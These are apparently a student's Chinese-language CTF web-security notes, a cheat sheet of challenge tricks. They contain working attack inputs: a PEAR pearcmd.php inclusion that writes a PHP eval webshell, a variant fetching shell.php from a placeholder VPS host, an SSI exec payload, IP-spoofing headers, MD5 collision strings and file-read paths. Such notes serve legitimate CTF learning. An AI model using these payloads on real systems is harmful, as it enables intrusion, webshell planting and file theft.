

# Web CTF Notes — 知识地图、通用技巧与杂项

> 来源：source/本科web笔记.md
> 内容按原笔记保留，仅添加本分组标题。

## 原文前置信息与知识地图

---
title: Web 安全笔记（CTF 学习记录）
date: 2022-09-03
updated: 2026-09-21
tags:
  - CTF
  - Web
  - 笔记
source: C:/Users/14844/Desktop/Homework/CTF/web笔记2.md
---

# Web 安全笔记（CTF）

> [!info] 关于本笔记
> - 原始文件：`C:\Users\14844\Desktop\Homework\CTF\web笔记2.md`（保持原样，未改动）。
> - 本文件由原笔记**整理排版 + 可视化增强**而来：统一标题层级与编号、修正代码块语言与换行、图片统一放在本库 `image/` 目录。
> - payload / 代码内容按原样保留；本轮只加「知识地图、章节速览、流程图、索引表、缺失图标记」，不改动任何 payload 本体。
> - 本轮新增：知识地图 + 决策树、32 张章节速览卡片、4 张 mermaid 流程图、PHP 函数索引表、SRC 查询平台表格。
> - 改动前已备份为同目录 `本科web笔记.bak-20260921.md`；内容仅用于个人学习与**已获授权**的测试环境。

## 🗺️ 知识地图

> [!tip] 怎么用这份笔记
> - 先看下面的 **决策树** 判断题目类型，再跳到对应章节；
> - 每章开头都有一张 `速览` 卡片，扫一眼就知道这章要不要细看；
> - 章标题前的 emoji 只是为了让左侧大纲更好认。



> [!abstract] ① 注入类
> - [[#💻 六、命令执行（RCE）]]
> - [[#🗄️ 十一、SQL 注入]]
> - [[#📜 十六、XXE 题目]]
> - [[#🛰️ 十七、SSRF 题目]]
> - [[#🧩 十八、服务端模板注入（SSTI）]]
> - [[#🕸️ 十九、XSS 专题]]
> - [[#📌 五、SSI 注入]]
> - [[#🧭 二十九、XPath 注入]]

> [!abstract] ② 文件 · 上传 · 包含
> - [[#⚙️ 七、代码执行]]
> - [[#📂 八、文件包含]]
> - [[#📤 九、文件上传]]
> - [[#🍐 二十五、PEAR 包含]]
> - [[#🛠️ 二十四、PHP 题目]]

> [!abstract] ③ 反序列化与原型链
> - [[#🔗 二十七、PHP 反序列化]]
> - [[#🥒 二十三、Pickle 反序列化]]
> - [[#🟩 二十、Node.js 题目]]

> [!abstract] ④ 语言 / 服务版本特性
> - [[#🐘 三、PHP 版本相关]]
> - [[#☕ 十、Java 命令执行与 OQL 查询]]
> - [[#🍵 十四、Java 题目]]
> - [[#🍶 十二、Flask 题目]]
> - [[#⚡ 二十八、FastAPI]]
> - [[#🌿 十三、Git 题目]]
> - [[#🎫 十五、JWT 题目]]
> - [[#🧷 二十一、其他小专题]]

> [!abstract] ⑤ 速查手册
> - [[#📖 二十六、PHP 函数速查]]
> - [[#🎯 四、Web 题目常见 Trick]]
> - [[#🌐 二、HTTP 请求基础]]
> - [[#🧰 一、通用技巧]]
> - [[#🐍 二十二、Python 用法]]

> [!abstract] ⑥ 思路与实战
> - [[#❓ 三十一、常见问题]]
> - [[#🧮 三十、综合例题]]
> - [[#🏴‍☠️ 三十二、SRC 挖洞之路]]

> [!info] 笔记统计
> - 32 个主题章节 · 112 个代码块（全部标了语言）· 29 张图片引用
> - 17 张原图在导出时已丢失（WPS 临时图），用灰色 `图片缺失` 卡片标出，正文未做删改
---


## 一、通用技巧

## 🧰 一、通用技巧

> [!summary] 速览
> - 零散速记：`controllers/api.js` 在题目里经常出现，可作为信息收集点
> - `openssl genrsa -out pri_key.pem 2048` 生成 RSA 私钥

controllers/api.js  常见

生成密钥

```bash
openssl genrsa -out pri_key.pem 2048

```

---


## 二、HTTP 请求基础

## 🌐 二、HTTP 请求基础

> [!summary] 速览
> - [MDN HTTP Methods](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods) —— 方法速查
> - `docker-compose up -d` 起环境、`docker ps` 看容器；[requestrepo](https://requestrepo.com/) 自建请求回显 / DNS 打点
> - `gcc hook.c -o hook.so -fPIC -shared -ldl -D_GNU_SOURCE` 编译 so（配合劫持 / 提权）

https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods

docker运行部署

```bash
[root@base ~]#docker-compose up -d
docker ps

```

[Dashboard - requestrepo.com](https://requestrepo.com/)

so文件编译

```bash
gcc hook.c -o hook.so -fPIC -shared -ldl -D_GNU_SOURCE

```

https://drunkmars.top/2021/04/14/thinkphp%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E6%80%BB%E7%BB%93/

---


## 四、Web 题目常见 Trick

## 🎯 四、Web 题目常见 Trick

> [!summary] 速览
> - 分隔 / 换行绕过：`&`、`|`、`||`、`%0a`、`%0d`
> - 看到「读取」想伪协议，看到「下载」想跨目录任意文件读取
> - 三个 URL 解码后 `md5()` 相同（碰撞）；`4476e123` 在 `intval` 中截断为 `4476`，绕过弱类型比较
> - 编码绕过：八进制 `010574`、十六进制 `0x`
> - 读源码：`php://filter/read=string.rot13/newstar/resource=flag.php`；vim 交换文件 `.index.php.swp / .swo / .swn`
> - 伪造 IP 头拼本地登录：`X-Forwarded-For`、`Client-IP`、`X-Real-IP`、`CF-Connecting-IP` 等一长串
> - MD5 / SHA1 专题：数组绕过、`0e` 科学计数法、`ffifdyop`、`a == md5($a)`、`0e215962017`

常见trick：

1.绕过；&、|、||、%0a、%0d

 2.读取就要想到伪协议

3.文件下载想到任意文件跨目录读取

下面三个url解码后md5()后相同

<details>
  <summary>点击展开代码块</summary>

```text
$s1 = "%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%6d%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%27%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%66%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%96%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%b3%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%ef%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%df%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%73%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%69%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%93%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%28%1c%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%b9%05%39%95%ab"

$s2 = "%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%6d%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%27%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%66%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%96%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%b3%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%ef%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%5f%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%f3%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%e9%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%13%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%a8%1b%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%39%05%39%95%ab"

$s3 = "%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%ed%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%a7%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%e6%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%16%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%33%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%6f%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%df%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%73%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%69%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%93%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%28%1c%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%b9%05%39%95%ab"

```
</details>
绕过八进制 010574

0代表是八进制,+0和 0都可以

十六进制0x

在弱类型比较的时候，4476e123是科学计数法4476*10^123，而在intval函数中，遇到字母就停止读取，因此是4476，成功绕过，非常巧妙。

php://filter/read=string.rot13/newstar/resource=flag.php

Php协议读取

第一次vim会创建缓存的[交换文件](https://so.csdn.net/so/search?q=交换文件&spm=1001.2101.3001.7020)名为 .index.php.swp，

再次意外退出后，将会产生名为 .index.php.swo 的交换文件，

第三次产生的交换文件则为 .index.php.swn。

XFF可控，

Flask可能存在Jinjia2模版注入漏洞

PHP可能存在Twig模版注入漏洞

本地登陆

X-Forwarded: 127.0.0.1

Forwarded-For: 127.0.0.1

Forwarded: 127.0.0.1

X-Requested-With: 127.0.0.1

X-Forwarded-Proto: 127.0.0.1

X-Forwarded-Host: 127.0.0.1

X-remote-IP: 127.0.0.1

X-remote-addr: 127.0.0.1

True-Client-IP: 127.0.0.1

X-Client-IP: 127.0.0.1

Client-IP: 127.0.0.1

X-Real-IP: 127.0.0.1

Ali-CDN-Real-IP: 127.0.0.1

Cdn-Src-Ip: 127.0.0.1

Cdn-Real-Ip: 127.0.0.1

CF-Connecting-IP: 127.0.0.1

X-Cluster-Client-IP: 127.0.0.1

WL-Proxy-Client-IP: 127.0.0.1

Proxy-Client-IP: 127.0.0.1

Fastly-Client-Ip: 127.0.0.1

True-Client-Ip: 127.0.0.1

X-Originating-IP: 127.0.0.1

X-Host: 127.0.0.1

X-Custom-IP-Authorization: 127.0.0.1

从哪访问：Referer

服务ip：via

邮箱：FROM

$this->code==0x36d (弱比较换成十进制数也可）

system不能用可以换shell_exec

if (md5($_POST['a']) === md5($_POST['b']))数组绕过

ls /|tee xxx 也可以写文件，再用nl打开

ctfshow::getflag 直接调用方法

ctfshow[0]=ctfshow&ctfshow[1]=getFlag

冒号过滤可以尝试数组绕过，前面属性后面方法名

call_user_func(array($classname, 'say_hello'));

?1=session_start

?1=error_reporting

?1=json_last_error

能返回一正确（true）值绕过==弱比较

?1=spl_autoload_extensions生成 .inc,.php 文件(shell文件)

通过替换实现内存占用放大，超过php最大默认内存256M即可造成变量定义失败

Str_repalce

已经拿过flag，题目正常,也就是说...可以看日志

配置文件  /etc/nginx/nginx.conf

访问日志  /var/log/nginx/access.log

file:///etc/nginx/conf.d/default.conf

?page=/var/log/nginx/access.log ?page=/var/log/nginx/error.log ?page=/etc/nginx/nginx.conf

依赖进程，思路可以是读 /proc/self/maps

/proc/self/fd/ 文件被删除

Md5专题

 if ($sha1_1 != $sha1_2 && sha1($sha1_1) === sha1($sha1_2))

数组绕过

if ($a != $b && md5($a) == md5($b))

a=s1885207154a，b=s1836677006a

if ($a != $b && md5($a) == md5(md5($b))

a=s1885207154a，b=V5VDSHva7fjyJoJ33IQl

if (isset($md5) && $md5 == md5($md5))

md5=0e215962017

 if( ($this->a !== $this->b) && (md5($this->a) === md5($this->b)) && (sha1($this->a)=== sha1($this->b)) )

A=1 b=’1’;

if((string)$_GET['a'] !== (string)$_GET['b'] && md5($_GET['a'])===md5($_GET['b'])){

s1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

&s2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

$md5==md5(md5($md5))

0e1138100474

a==md5($a)

0e215962017

md5('240610708') == md5('QNKCDZO')

加密后带单引号’

ffifdyop

e58

4611686052576742364

加1

1e<2023  1e7+1>2023

%0a绕过#注释符号

---


## 五、SSI 注入

## 📌 五、SSI 注入

> [!summary] 速览
> - 特征：文件名 / 页面为 `*.shtml`
> - 探测 payload：`<!--#exec cmd="ls -al"-->`

特征：shtml文件

`<!--#exec cmd="ls -al"-->`

---


## 二十一、其他小专题

## 🧷 二十一、其他小专题

> [!summary] 速览
> - **PEAR 包含**：`?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($_POST[1]);?>+/var/www/html/a.php`
> - **ssh 打 php-fpm**：`python2 gopherus.py --exploit fastcgi`
> - **非法传参名**：PHP < 8 时参数里的 `[` 会转成 `_`，但转换出错后后面的非法字符不再转换 → `show[show.show` 绕过

> [!warning] 前提条件
> PEAR 包含要同时满足：装了 pear、开启了 `register_argc_argv`、且 `include $_GET['f']`（哪怕是 `include $_GET['f'].php`）的参数可控。
> 别照抄：前面是 `pearcmd.php` 这个被包含的文件，后面才是要传的参数。

### PEAR 包含
安装了pear

开启了registerargcargv

存在可控的include $_GET['f'](即使是include $_GET['f'].php)

?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($_POST[1]);?>+/var/www/html/a.php

1=system(‘ls’);用burp放  如果用hackbar放会把<>url编码

不要照搬，前面是include（pearcmd.php）这个函数，后面是放入参数。

?file=/usr/local/lib/php/pearcmd.php&lalala+install±R+/var/www/html/+[http](https://so.csdn.net/so/search?q=http&spm=1001.2101.3001.7020)://vps-ip/shell.php

### ssh 打 php-fpm（FastCGI）

python2 gopherus.py --exploit fastcgi

### 函数使用

### 非法传参名

当PHP版本小于8时，如果参数中出现中括号[，中括号会被转换成下划线_，但是会出现转换错误导致接下来如果该参数名中还有非法字符并不会继续转换成下划线_，也就是说如果中括号[出现在前面，那么中括号[还是会被转换成下划线_，但是因为出错导致接下来的非法字符并不会被转换成下划线_

$_GET['show_show.show']

show[show.show

 例题1：


传参1%2B1>2

---

